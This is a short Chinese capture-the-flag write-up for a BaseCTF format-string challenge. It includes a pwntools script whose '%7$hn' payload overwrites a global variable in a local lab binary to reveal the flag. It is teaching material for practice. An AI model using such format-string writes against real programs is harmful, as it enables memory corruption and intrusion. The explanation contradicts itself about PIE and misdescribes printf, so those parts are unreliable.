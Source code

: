 # Basectf pwn方向“string_format_level1”

依旧，题目就是提示，检查下题目发现关闭了PIE保护，也就是说可以在地址上做文章了

![alt text](image.png)

这里可以发现当target不为0的时候可以输出flag，所以修改flag值就好

```python
from pwn import *
p = process('./vuln')

target = 0x4040b0
payload = b'aaa%7$hn'+p64(target)
p.sendline(payload)
p.interactive()
```

## 解析

获取输入值在栈中的偏移量的方法就不加赘述了

这里target的地址是直接在ida里找到的，因为开启了pie所以所见即所得

`printf("%d %n",a,&b);`的意思是读入数字到a中，而读入的字符数将读入到b指向的内存地址中

`payload = b'aaa%7$hn'+p64(target)`

- 先填充位，不然就算改到target里了也是从0变成了0
- `%7$hn`
  - `7$`是第七个参数作为格式化源（也就是printf函数会从堆栈中获取第7个参数的值）
  - `hn`表示将该参数的值以半字（half n）（2字节）的形式写入到指定内存
- `p64(target)`就是相应的内存地址

现在的

`printf("%s %hn",aaa,&target)`